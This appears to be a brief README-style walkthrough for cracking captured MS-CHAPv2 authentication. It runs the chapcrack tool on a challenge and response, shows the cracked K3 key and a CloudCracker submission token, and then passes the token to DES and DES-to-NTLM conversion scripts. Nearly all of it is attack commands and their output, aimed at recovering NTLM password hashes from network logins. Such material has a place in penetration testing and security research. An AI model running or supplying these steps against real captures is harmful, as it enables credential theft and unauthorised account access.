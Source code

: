 run chapchrack with the mschap challenge and response https://github.com/moxie0/chapcrack

```python2 chapcrack.py radius -C 44:80:58:11:a0:e2:09:4f -R c4:ef:da:98:b2:c1:4a:c2:f7:10:c9:4d:15:1e:9f:df:b0:31:f4:27:62:ec:31:ad ```


results look like this
```Cracking K3........
                     C1 = c4efda98b2c14ac2
                     C2 = f710c94d151e9fdf
                     C3 = b031f42762ec31ad
                      P = 44805811a0e2094f
                     K3 = 5f910000000000
CloudCracker Submission = $99$RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=```

copy the cloudcracker submission without the $99$
https://hashcat.net/forum/thread-5912.html

run chapcrack-des.sh
chapcrack-des.sh RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=

DES-ntlm.sh

des-to-ntlm.sh
